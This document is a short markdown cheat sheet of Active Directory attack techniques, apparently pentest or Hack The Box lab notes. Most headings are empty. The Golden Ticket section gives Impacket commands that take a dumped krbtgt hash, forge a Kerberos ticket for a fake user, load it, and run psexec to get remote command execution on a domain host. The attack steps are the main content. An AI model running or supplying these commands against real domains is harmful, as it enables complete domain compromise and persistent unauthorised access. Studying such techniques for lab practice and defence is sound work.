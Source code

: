 # Cheat Sheet

## AS-REP Roast

## Kerberoast

## Silver Ticket

## Golden Ticket

### From Linux

#### Impacket

After dumping the hashes, we will use the `krbtgt` user and hash that was found.

```bash
# From Target: Get Domain SID via PowerShell cmdlet
Get-ADDomain htb.local  # Look for DomainSID
# From Kali
python ticket.py <nt-hash> -domain-sid <DomainSID> -domain htb.local <fake-username>
export KRB5CCNAME=<fake-username>.cache
# Then use psexec
psexec.py htb.local/<fake-username>@<IP> -k -no-pass  # Using IP
psexec.py htb.local/<fake-username>@<DOMAIN> -k -no-pass  # May need to user domain
# DEBUG
## Redo steps replaceing <fake-username> with administrator
# Can also try wmiexec, smbexec
```

#### Mimikatz
